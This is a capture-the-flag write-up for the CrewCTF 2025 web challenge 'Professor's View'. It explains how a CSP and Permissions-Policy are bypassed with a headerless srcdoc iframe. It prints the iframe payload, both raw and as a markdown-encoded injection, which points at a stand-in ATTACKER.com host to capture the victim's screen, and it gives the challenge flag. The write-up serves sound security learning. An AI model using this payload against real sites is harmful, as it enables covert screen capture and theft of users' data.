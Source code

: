 # Professor's View — CrewCTF 2025

> **Room / Challenge:** Professor's View (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** CrewCTF 2025
- **Challenge:** Professor's View (web)
- **Target / URL:** `https://professors-view.chal.crewc.tf/`
- **Difficulty:** `Hard`
- **Points:** `477`
- **Tags:** web, xss, sqli, auth, enumeration
- **Date:** `21-09-2025`

---

## Goal

We have to get the flag of the Professor which is showned in his dashboard.

## My Solution

Here is the [Source Code](./professor-view.tar.gz)

Unlike Hate Notes and Love Notes, Professor's View response is set:

```
Content-Security-Policy: script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';
```

So from now on we can skip the XSS and CSS Exfiltration.

You can read full write-up of the author `bubu` [here](https://albertofdr.github.io/post/crewctf-2025/)

But I have the base idea:

The app has a route `/profmeet` which should be used to create meetings or calls. That can explain why the `Permissions-Policy` has `self` value for `camera`, `display-capture`.

```javascript
// Middleware to add security headers to all responses
app.use((req, res, next) => {
  // Prevent any attack
  res.setHeader("X-Content-Type-Options", "nosniff");
  res.setHeader("X-Frame-Options", "DENY");
  res.setHeader(
    "Content-Security-Policy",
    "script-src 'self' https://js.hcaptcha.com/1/api.js; style-src 'self'; img-src 'self'; font-src 'none'; connect-src 'none'; media-src 'none'; object-src 'none'; prefetch-src 'none'; frame-ancestors 'none'; form-action 'self';"
  );
  res.setHeader("Referrer-Policy", "no-referrer");
  res.setHeader(
    "Permissions-Policy",
    "accelerometer=(),attribution-reporting=(),autoplay=(),browsing-topics=(),camera=self,captured-surface-control=(),ch-device-memory=(),ch-downlink=(),ch-dpr=(),ch-ect=(),ch-prefers-color-scheme=(),ch-prefers-reduced-motion=(),ch-rtt=(),ch-save-data=(),ch-ua=(),ch-ua-arch=(),ch-ua-bitness=(),ch-ua-form-factors=(),ch-ua-full-version=(),ch-ua-full-version-list=(),ch-ua-mobile=(),ch-ua-model=(),ch-ua-platform=(),ch-ua-platform-version=(),ch-ua-wow64=(),ch-viewport-height=(),ch-viewport-width=(),ch-width=(),clipboard-read=(),clipboard-write=(),compute-pressure=(),cross-origin-isolated=(),deferred-fetch=(),digital-credentials-get=(),display-capture=self,encrypted-media=(),ethereum=(),fullscreen=(),gamepad=(),geolocation=(),gyroscope=(),hid=(),identity-credentials-get=(),idle-detection=(),join-ad-interest-group=(),keyboard-map=(),local-fonts=(),magnetometer=(),microphone=self,midi=(),otp-credentials=(),payment=(),picture-in-picture=(),private-aggregation=(),private-state-token-issuance=(),private-state-token-redemption=(),publickey-credentials-create=(),publickey-credentials-get=(),run-ad-auction=(),screen-wake-lock=(),serial=(),shared-storage=(),shared-storage-select-url=(),solana=(),storage-access=(),sync-xhr=(),unload=(),usb=(),window-management=(),xr-spatial-tracking=()"
  );
  res.setHeader("Cache-Control", "no-store");
  next();
});
```

There is a bypass method by using `about:srcdoc` headerless document which do not produce HTTP requests and therefore lack response headers. The payload will be constructed like this: `<iframe srcdoc="<iframe src='https://ATTACKER.com' allow='display-capture'></iframe>"></iframe>`.

In the markdown, that payload will become `&[a[srcdoc=&lt;iframe/src=&apos;https://ATTACKER.COM&apos;/allow=display-capture&gt; ](a)](a)`, because markdown blocks `<` and `>`. So we can make a complain with that payload and get the screenshot in our server.

You can view the `server.js` created by `bubu` [here](https://github.com/AlbertoFDR/CTF/blob/main/created-challs/CrewCTF-2025/professors-view/solution/server.js)

![Guide image](./screenshots/professor-view-1.webp)

We can get the flag: `crew{permissions_are_fun_even_that_people_dont_really_care_1a3b7c9d}`

## Lessons Learned

- Markdown Exploit
- Beyond XSS Exploitation
